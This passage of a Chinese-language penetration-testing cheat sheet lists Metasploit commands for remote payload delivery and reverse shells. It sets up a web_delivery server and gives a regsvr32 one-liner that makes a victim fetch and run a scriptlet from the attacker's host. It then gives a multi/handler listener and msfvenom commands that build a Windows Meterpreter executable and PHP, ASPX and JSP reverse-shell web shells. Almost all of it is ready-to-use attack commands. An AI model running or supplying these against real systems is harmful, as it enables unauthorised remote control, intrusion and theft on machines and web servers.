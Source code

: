 通过web服务器执行远程payload

```sh
use exploit/multi/script/web_delivery
set srvhost 192.168.1.129
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.1.129
set lport 7789
set target 3
exploit -j

# 被控端执行
regsvr32 /s /n /u /i:http://192.168.1.129:8080/T8f1PwYf7Ao3.sct scrobj.dll
```

<br/>

#### 攻击载荷(payloads)

***

##### 0x00 监听器

```sh
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.40.132
set lport 5445
run -j
```

<br/>

##### 0x01 分阶段反向tcp连接

```sh
# windows/x64/meterpreter/reverse_tcp
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.40.132 lport=5445 -f exe o m1.exe

```

<br/>

##### 0x02 web类型payload

```sh
# php
msfvenom-p php/meterpreter/reverse_tcp LHOST=192.168.2.2 LPORT=4444 -f raw > shell.php
```

```sh
# asp
msfvenom -a x64 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.2.2 LPORT=4444 -f aspx -o shell.aspx
```

```sh
# jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.2.2 LPORT=4444 -f raw > shell.jsp
```
